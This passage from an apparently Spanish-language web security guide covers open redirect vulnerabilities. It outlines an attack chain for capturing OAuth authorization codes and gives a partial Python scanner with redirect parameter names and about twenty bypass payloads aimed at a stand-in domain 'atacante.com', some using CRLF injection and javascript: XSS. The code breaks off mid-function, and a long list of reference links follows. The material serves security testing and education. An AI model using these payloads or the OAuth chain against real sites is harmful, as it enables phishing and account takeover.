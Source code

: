 1. Identificar open redirect en aplicación OAuth client
2. Crear URL maliciosa combinando OAuth + open redirect
3. Hacer que víctima autenticada acceda a URL maliciosa
4. Capturar authorization code en servidor atacante
5. Usar código para obtener access token de víctima

### Automatizada: Scanner de Open Redirect

```python
import requests
import concurrent.futures
from urllib.parse import urlparse, urlencode
import time

class OpenRedirectScanner:
    """
    Scanner automatizado de vulnerabilidades Open Redirect
    """
  
    def __init__(self, base_urls, attacker_domain="atacante.com"):
        self.base_urls = base_urls if isinstance(base_urls, list) else [base_urls]
        self.attacker_domain = attacker_domain
        self.session = requests.Session()
    
        # Parámetros comunes de redirección
        self.redirect_params = [
            'redirect', 'redirect_url', 'redirect_uri', 'redirectURL',
            'next', 'url', 'return', 'returnUrl', 'continue', 'go',
            'dest', 'destination', 'target', 'to', 'out', 'forward',
            'callback', 'callbackUrl', 'rurl', 'r', 'page'
        ]
    
        # Payloads de bypass avanzados
        self.bypass_payloads = [
            f"https://{attacker_domain}",
            f"//{attacker_domain}",
            f"\\\\{attacker_domain}",
            f"https:{attacker_domain}",
            f"http:{attacker_domain}",
            f"%2f%2f{attacker_domain}",
            f"%5c%5c{attacker_domain}",
            f"https://%40{attacker_domain}",
            f"https://legitimate.com@{attacker_domain}",
            f"https://legitimate.com.{attacker_domain}",
            f"https://{attacker_domain}%23legitimate.com",
            f"https://{attacker_domain}?legitimate.com",
            f"https://{attacker_domain}°legitimate.com",
            f"https://legitimate%E3%80%82{attacker_domain}",
            f"////{attacker_domain}",
            f"javascript:alert('XSS')//{attacker_domain}",
            f"/%0D%0ALocation:%20https://{attacker_domain}",
            f"/%0A/{attacker_domain}",
            f"/%09/{attacker_domain}",
            f"/%2e%2e%2f{attacker_domain}"
        ]
  
    def test_endpoint(self, url, param, payload):
        """
        Prueba un endpoint específico con un payload
        """
        try:
            # Construir URL de prueba
            if '?' in url:
                test_url = f"{url}&{param}={payload}"
```

[^1]: https://www.intigriti.com/researchers/blog/hacking-tools/open-url-redirects-a-complete-guide-to-exploiting-open-url-redirect-vulnerabilities
[^2]: https://www.stackhawk.com/blog/what-is-open-redirect/
[^3]: https://www.diverto.hr/en/blog/2024-12-30-open-redirection-url-filter-bypasses
[^4]: https://www.wallarm.com/what/open-redirect-vulnerability
[^5]: https://infosecwriteups.com/how-to-automate-hunting-for-open-redirect-46537cd67b35
[^6]: https://spyboy.blog/2025/05/01/the-ultimate-guide-to-finding-open-redirect-vulnerabilities-step-by-step-payloads-tools/
[^7]: https://infosecwriteups.com/100-worth-open-redirect-automation-3e2f9e36bade
[^8]: https://www.cyberark.com/resources/threat-research-blog/how-secure-is-your-oauth-insights-from-100-websites
[^9]: https://systemweakness.com/day-21-full-account-takeover-via-open-redirection-5f3ca7f0c726
[^10]: https://infosecwriteups.com/️-how-hackers-bypass-web-application-firewalls-wafs-in-2025-c2a5052044c9
[^11]: https://systemweakness.com/8-sneaky-waf-bypass-attempts-hackers-use-in-2025-and-how-safeline-stops-them-cold-f00034239538
[^12]: https://gist.github.com/0xblackbird/d7677a05ea50586cf2be0a601e665d1a
[^13]: https://infosecwriteups.com/testing-and-bypassing-technique-for-open-redirection-vulnerability-ca1bc6c851c5
[^14]: https://www.youtube.com/watch?v=sOrS69P-D8M
[^15]: https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection
[^16]: https://github.com/0xKayala/OpenRedirector
[^17]: https://cqr.company/web-vulnerabilities/open-redirect/
[^18]: https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2023-24735
[^19]: https://pentest-tools.com/vulnerabilities-exploits/grafana-xss-open-redirect-ssrf-via-client-path-traversal_27130
[^20]: https://security.snyk.io/vuln/SNYK-RHEL10-AUTOMATIONCONTROLLER-10441889
[^21]: https://swisskyrepo.github.io/PayloadsAllTheThings/Open Redirect/
[^22]: https://www.invicti.com/blog/web-security/open-redirection-vulnerability-information-prevention/
[^23]: https://www.acunetix.com/vulnerabilities/web/grafana-open-redirect-cve-2025-4123/
[^24]: https://abnormal.ai/blog/attackers-exploit-open-redirects
[^25]: https://www.first.org/cvss/examples
[^26]: https://www.first.org/cvss/v3-1/examples
[^27]: https://cybercx.co.nz/blog/advanced-open-redirection-vulnerability-discovery/
[^28]: https://security.snyk.io/vuln/SNYK-JS-EXPRESS-6474509
[^29]: https://waf-bypass.com/2025/06/page/2/
[^30]: https://www.youtube.com/watch?v=1Op_fPufvRI
[^31]: https://brightdata.com/blog/web-data/bypass-cloudflare
[^32]: https://www.radware.com/cyberpedia/application-security/server-side-request-forgery/
[^33]: https://dl.acm.org/doi/fullHtml/10.1145/3627106.3627140
[^34]: https://hackerone.com/reports/206591
[^35]: https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect
[^36]: https://www.linkedin.com/posts/martinmarting_an-interesting-combo-ssrf-and-open-redirect-activity-7343680390290706433-lviV
[^37]: https://salt.security/blog/traveling-with-oauth-account-takeover-on-booking-com
[^38]: https://infosecwriteups.com/from-open-redirect-to-internal-access-my-ssrf-exploit-story-10a736962f98
[^39]: https://security.tecno.com/SRC/blogdetail/330?lang=en_US